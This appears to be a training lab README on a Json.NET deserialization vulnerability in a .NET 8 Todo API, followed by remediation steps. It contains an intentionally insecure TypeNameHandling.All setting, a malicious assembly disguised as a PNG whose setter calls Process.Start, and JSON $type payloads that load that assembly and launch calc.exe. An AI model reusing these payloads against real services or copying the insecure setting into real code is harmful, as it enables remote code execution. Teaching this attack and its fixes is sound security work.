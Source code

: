 # .NET 8 Json.NET Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET. Therefore, this exercise uses a custom assembly to create a gadget chain.

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

The code to run and reproduce this vulnerability is located in the scr/03-NET8-JsonVulnerabilities/unsecured folder in this repository and can be found at <https://github.com/johniwasz/rce-serialization-dotnet/tree/main/src/03-.NET8-JsonVulnerabilties/unsecured>.

``` csharp
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` csharp
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` csharp
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

Locate the requests.http file in the `Solution Items` folder.

This can be exploited using the following message:

``` json
# Test if a file can be read
POST https://{{hostname}}:{{port}}/api/TodoItems HTTP/1.1
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": 
        {
          "$type": "System.IO.FileInfo, System.IO.FileSystem",
          "fileName": "rce-test.txt"
        }
    }
}
```

Note that the request generates an error since the `System.IO.FileInfo' class is not serializable; however, the class was instantiated which confirms a serialization vulnerability.

## Load the malicious file

The first REST API call loads the malicious file using:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":
        {
          "$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
          "Path":"someimage.png"}
    }
}
```

The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" 
            }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Remediating the Vulnerability

The next section covers how to close the security vulnerabilities exposed in the prior exercise.

### Scanning for Github Security Advisories

Scan the solution for known vulnerabilities using `dotnet`.

1. Navigate to the solution folder in a command prompt.

1. Execute the following and observe the results.

    ``` bat
    dotnet list package --vulnerable
    ```

1. Execute the a check for transitive dependencies and observe the results.

    ``` bat
    dotnet list package --vulnerable --include-transitive
    ```

Update any vulnerable Nuget packages that are directly referenced. Investigate and update vulnerable transitive dependencies if possible.

For more information, please see:
[How to Scan NuGet Packages for Security Vulnerabilities](https://devblogs.microsoft.com/nuget/how-to-scan-nuget-packages-for-security-vulnerabilities/?WT.mc_id=MVP_337682)

### Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers). Security rules are disabled by default. For a comprehensive list of security rules see [Security Warnings](https://learn.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/security-warnings?WT.mc_id=MVP_337682).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under:

    ``` bat
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```

1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilities.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Security rules are disabled by default.

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the Error List.

    ![Observe Warnings](./images/serialization01.png "Observe Warnings")

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft Json.NET security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    ![Warnings to Errors](./images/serialization02.png "Warnings to Errors")

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` csharp
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```csharp
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```
